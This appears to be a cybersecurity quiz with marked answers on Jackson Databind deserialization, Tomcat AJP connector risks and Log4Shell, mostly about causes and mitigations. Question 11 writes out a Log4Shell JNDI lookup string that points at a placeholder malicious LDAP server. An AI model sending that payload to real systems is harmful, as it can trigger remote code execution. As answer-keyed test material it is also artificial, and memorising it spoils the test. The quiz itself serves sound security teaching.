 #CyberSecurity/VulnerableDependencies

### 1 . How can an attacker exploit the Jackson Databind vulnerability?
- ❌ By injecting SQL queries into the serialized JSON
- ❌ By exploiting weak encryption in the JSON keys
- ❌ By passing a URL that bypasses authentication checks
- ✅ By sending a JSON payload containing dangerous `@type` metadata

### 2. How can the risk associated with AJP be mitigated?
- ✅ Restricting AJP traffic to trusted hosts and setting a secret
- ❌ Upgrading to the latest version of Java
- ❌ Using a different logging library
- ❌ Disabling HTTPS and using HTTP only

### 3. What caused the Jackson Databind deserialization vulnerability?
- ✅ A flaw in the handling of polymorphic types
- ❌ The absence of any type handling logic
- ❌ The use of outdated cryptographic algorithms
- ❌ Insufficient logging mechanisms

### 4. What configuration change can help prevent Log4Shell attacks?
- ✅ Setting `log4j2.formatMsgNoLookups=true`
- ❌ Disabling log rotation in Log4j
- ❌ Increasing the logging level to DEBUG
- ❌ Using a firewall to block all incoming traffic

### 5. What is a gadget class in the context of deserialization vulnerabilities?
- ❌ A class that logs all serialization and deserialization events
- ✅ A class that can be exploited during deserialization to perform unintended actions
- ❌ A class that implements only the `Serializable` interface without methods
- ❌ A utility class that simplifies JSON handling

### 6. What is one major security risk of exposing an AJP connector to the internet?
- ✅ It can lead to remote code execution through deserialization exploits.
- ❌ It can allow attackers to perform DNS cache poisoning.
- ❌ It makes the application vulnerable to Cross-Site Scripting (XSS).
- ❌ It causes encryption keys to be logged in plain text.

### 7. What is the primary mitigation for the Jackson deserialization vulnerability?
- ❌ Switching to XML instead of JSON
- ✅ Upgrading to a patched version of Jackson and whitelisting allowed types
- ❌ Disabling all JSON handling in the application
- ❌ Using prepared statements for database queries

### 8. What made the Log4Shell vulnerability (CVE-2021-44228) possible?
- ❌ A lack of secure password storage in Log4j
- ❌ Improper token validation in Log4j
- ✅ A remote code execution flaw in the JNDI lookup feature
- ❌ Unpatched vulnerabilities in the LDAP server

### 9. What role does the AJP connector play in a Tomcat-based application?
- ❌ It acts as a database connection pool manager.
- ✅It serves as a bridge between a web server and Tomcat for request forwarding.
- ❌ It is responsible for TLS encryption of all HTTP requests.
- ❌ It handles file uploads from the client.

### 10. What type of action might a gadget class perform when deserialized?
- ✅ Write files or execute code without explicit calls from the application
- ❌ Automatically compress large objects in memory
- ❌ Send email alerts to the system administrator
- ❌ Automatically hash all fields using SHA-256

### 11. Which input could trigger the Log4Shell vulnerability?
- ✅  `${jndi:ldap://malicious-server.com/a}`
- ❌  `<script>alert('XSS')</script>`
- ❌ `GET /login HTTP/1.1`
- ❌ `{ "username": "admin", "password": "password123" }`

### 12. Why are gadget classes often found in common libraries?
- ❌ Common libraries are more likely to be open source and freely available.
- ✅ Common libraries often include reusable classes with methods that may be automatically invoked during deserialization.
- ❌ Common libraries are written in older programming languages.
- ❌ Common libraries are more frequently updated and include additional features.
